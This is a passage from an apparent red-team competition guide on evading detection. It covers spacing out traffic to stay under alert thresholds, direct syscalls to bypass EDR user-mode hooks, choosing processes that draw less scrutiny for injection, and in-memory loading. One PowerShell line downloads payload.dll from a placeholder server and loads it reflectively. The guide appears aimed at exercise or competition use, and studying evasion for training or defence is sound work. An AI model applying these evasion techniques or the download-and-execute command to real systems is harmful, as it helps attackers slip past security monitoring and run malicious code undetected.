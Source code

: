 - **Traffic Pattern Evasion**:
  - Avoid high-volume traffic
  - Space out connections
  - **Example**:
    ```bash
    # Instead of rapid connections
    for i in {1..10}; do
      curl http://<target>/resource$i
      sleep 30
    done
    ```
  - **Evasion Tip**: Unusual traffic patterns can trigger threshold-based alerts.

## 8. Commercial EDR Evasion

The competition includes a commercial EDR solution. These typically have more sophisticated detection capabilities.

- **EDR Hooking Evasion**:
  - Use direct system calls to bypass user-mode hooks
  - **Example (Simplified Concept)**:
    ```c
    // Direct syscall implementation
    __asm__ (
        "mov r10, rcx \n"
        "mov eax, <syscall_number> \n"
        "syscall \n"
        "ret \n"
    );
    ```
  - **Evasion Tip**: Many EDRs hook user-mode API functions but don't intercept direct syscalls.

- **Process Injection Refinements**:
  - Use less-monitored injection techniques
  - Target processes that are expected to have unusual behavior
  - **Example**:
    ```powershell
    # Target processes that normally load many DLLs
    # Like browsers or development environments
    ```
  - **Evasion Tip**: Some processes are expected to have dynamic behavior and may be less monitored.

- **In-Memory Operations**:
  - Minimize disk operations
  - Use reflective loading techniques
  - **Example**:
    ```powershell
    # Load .NET assembly directly in memory
    $bytes = (New-Object System.Net.WebClient).DownloadData('http://<server>/payload.dll')
    [System.Reflection.Assembly]::Load($bytes)
    ```
  - **Evasion Tip**: Many EDRs focus heavily on disk-based indicators.
